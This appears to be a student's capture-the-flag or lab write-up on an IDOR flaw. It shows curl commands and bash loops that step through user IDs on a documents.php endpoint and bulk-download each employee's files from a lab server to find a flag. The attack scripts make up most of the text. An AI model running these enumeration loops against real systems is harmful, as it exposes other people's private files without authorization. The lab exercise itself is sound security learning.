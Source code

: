 ```shell-session
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```

And go evenu further and make a look that goes and fetch every file from every employee ->

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

_**Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.**_

```
curl -X POST http://94.237.49.212:55717/documents.php -d "uid=1" | grep -oP "\/documents.*?.pdf"
```

So now we need to make the bash script ->

```
#!/bin/bash

url="http://94.237.49.212:55717"

for i in {1..20}; do
    for link in $(curl -X POST "$url/documents.php" -d "uid=$i" | grep -oP "\/documents.*?\.[a-zA-Z0-9]{2,4}"); do
        wget -q $url/$link
    done
done
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
